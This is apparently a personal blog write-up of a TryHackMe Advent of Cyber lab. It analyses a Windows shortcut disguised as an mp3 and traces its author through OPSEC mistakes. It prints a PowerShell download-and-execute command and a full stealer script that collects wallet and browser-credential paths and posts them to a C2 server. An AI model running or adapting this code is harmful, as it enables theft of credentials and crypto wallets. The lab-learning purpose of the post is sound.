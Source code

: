 ```yaml
---
title: "Advent of Cyber : OPSEC (Day_1)"
publishedAt: "2025-02-20"
summary: "day one on tryhackme advent of cyber security."
image: /blog/adventOfCyber-Day1.png
---
```


For the next 24 days I will share with you my journey in advent of Cyber 2024

**_Disclaimer:_** All content in this blog post, including CPP code, PowerShell scripts, and commands, is provided solely for educational purposes. Please do not execute these on a Windows host.


![Glitch Website](/blog/glitch-website.png)

Downloaded a file from the glitch suspicious website, found two files `song.mp3` and `somg.mp3`

first checked each file what it's like this : 

```shell 
user@tryhackme:~$ file song.mp3 download.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```

Check File 2 Terminal

```shell
user@tryhackme:~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

found the `somg.mp3` is an "MS Windows shortcut" aka `.lnk` 


we will use the `exiftool` to check the `.lnk` file we will find the following : 

```powershell
Relative Path : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Working Directory : C:\Windows\System32\WindowsPowerShell\v1.0 Command Line Arguments : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)" Machine ID : win-base-2019
```

oh!, here the `-ep Bypass -nop` flags disable PowerShell usual restrictions, The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.


let's check the url above in the browser, we will find the following code 

it has mainly 3 functions, collect wallets data, browser Login data (emails, passwords), and then sends to the C2 server 

```powershell 
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

we will notice in this code the signature **"Created by the one and only M.M."**, we can search on github for this, and we will find the same code but we now now who's MM (Mayor Maleware) such human error let us know who is the attacker behind the Malicious code. 

 when malicious actors fail to follow proper OPSEC practices, they might leave digital traces, common OPSEC mistakes include:
- Reusing usernames, email addresses, or account handles across multiple platforms. One might assume that anyone trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
- Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
- Posting publicly on forums or GitHub (Like in this current scenario) with details that tie back to their real identity or reveal their location or habits.
- Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.